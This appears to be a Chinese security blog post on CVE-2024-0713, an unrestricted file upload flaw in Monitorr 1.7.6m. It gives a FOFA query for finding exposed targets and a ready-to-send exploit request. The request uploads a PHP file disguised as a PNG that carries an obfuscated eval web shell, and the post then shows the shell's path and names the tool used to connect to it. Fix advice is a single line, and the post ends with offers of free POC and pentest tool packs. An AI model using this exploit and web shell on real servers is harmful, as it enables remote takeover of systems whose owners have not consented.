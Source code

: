 #  CVE-2024-0713   
原创 fgz  AI与网安   2024-01-25 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
****  
**福利：小编整理了大量电子书和护网常用工具，在文末免费获取。**  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Monitorr 服务配置 upload.php 无限制上传漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Monitorr 1.7.6m  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
Monitorr 1.7.6m存在漏洞，该漏洞被定义为关键级别。该漏洞影响了组件Services Configuration的文件/assets/php/upload.php的未知功能。通过操纵fileToUpload参数可导致无限制文件上传。攻击可以远程启动。该漏洞的利用已被公开披露并可能被利用。  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
body="assets/php/timestamp.php"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP7lvsDaPnX89x5cXjzmbDg4nSPyp7nrib94gP9KWbkNYAjtKE8GAJQyouGR9P5g8uozDrPtzFvicWQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
漏洞复现过程附上操作视频  
  
  
  
  
  
06  
  
—  
  
exp  
  
  
exp文件内容如下  
```
POST /assets/php/upload.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_4)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMmx988TUuintqO4Q
 
------WebKitFormBoundaryMmx988TUuintqO4Q
Content-Disposition: form-data; name="fileToUpload"; filename="shell.php"
Content-Type: image/png
 
{{unquote("\x89PNG\x0d\x0a\x1a\x0a\x00\x00\x00\x0dIHDR\x00\x00\x01\x00\x00\x00\x01\x00\x08\x06\x00\x00\x00\\r\xa8f\x00\x00\x03\x1eIDATx\x9c\xed\xd4\x01\x09\x00A\x10\xc4\xb0Yx\xff\x96\xef\x854\x81Z\xe8m\xef\xdd6I\xbd\xbe\xdd\x80\x28\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x800\x03\x80\xb0\x1f\xbd\xf4\x07\xfa\xeb>\xbe\xab\x00\x00\x00\x00IEND\xaeB`\x82\x0d\x0a<?php class Gn261550 \x7b public function __construct\x28$HW579\x29\x7b @eval\x28\"/*ZWabn8zLCk*/\".$HW579.\"/*ZWabn8zLCk*/\"\x29; \x7d\x7dnew Gn261550\x28$_REQUEST['123']\x29;?>")}}
------WebKitFormBoundaryMmx988TUuintqO4Q--
```  
  
回显路径  
```
http://x.x.x.x/assets/data/usrimg/shell.php
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP7lvsDaPnX89x5cXjzmbDg2oPPJJgJNjhmHPJ9n32QIx74ANicRoZMnyuMknyYWN2Tic6OSFib9LwSg/640?wx_fmt=png&from=appmsg "")  
  
蚁剑连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP7lvsDaPnX89x5cXjzmbDgs6PSibAibMSEFHYBLl8skyVkw90IktPHspqb0hqq7RwVxR9lPuiaiaqunA/640?wx_fmt=png&from=appmsg "")  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
08  
  
—  
  
福利领取  
  
  
关注公众号，在公众号主页点发消息发送关键字免费领取。  
  
  
  
**后台发送【****电子书**  
**】关键字获取学习资料网盘地址**  
  
****  
**后台发送【POC】关键字获取POC网盘地址**  
  
  
**后台发送【工具】获取渗透工具包**  
  
  
